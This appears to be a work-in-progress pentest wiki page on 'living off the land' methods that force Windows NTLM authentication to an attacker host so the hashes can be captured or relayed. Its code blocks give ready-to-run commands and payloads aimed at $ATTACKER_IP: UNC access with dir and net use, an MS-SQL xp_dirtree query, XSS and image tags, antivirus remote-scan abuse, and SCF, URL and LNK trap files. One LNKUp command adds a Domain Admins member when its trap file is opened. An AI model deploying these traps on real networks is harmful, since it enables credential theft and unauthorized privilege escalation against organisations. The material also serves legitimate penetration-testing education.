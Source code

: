 # 🛠️ Living off the land

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient. 
>
> In the technology world, “living off the land” \(LotL\) refers to attacker behavior that uses tools or features that already exist in the target environment. \([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/)\)

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication \(e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) \(Python\), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\)\).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays 

### MS-SQL queries execution

On MS-SQL \(Microsoft SQL\) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path \(i.e. `\\$ATTACKER_IP\something`\) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL \(i.e. `http://$IP:$PORT/something`\) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted \(or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web-services/attacks-on-inputs/xss-cross-site-scripting.md)\) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files \(scf, lnk, url\)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer \(e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary\). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm_theft) \(Python\) tool can be used to generate multiple file types at once \(lnk, scf, url, docx, xslx, htm, xml, pdf, ...\).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut_%28computing%29#Microsoft_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. \([source](https://hatching.io/blog/lnk-hta-polyglot/)\)

[LNKUp](https://github.com/Plazmaz/LNKUp) \(Python\) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened \(i.e. double-clicked\).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

{% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}
{% endtab %}

{% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

### RTF documents

### MS Word documents

## Resources

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}

{% embed url="https://logrhythm.com/blog/what-are-living-off-the-land-attacks/" %}

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes\#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

[https://github.com/mdsecactivebreach/Farmer](https://github.com/mdsecactivebreach/Farmer)

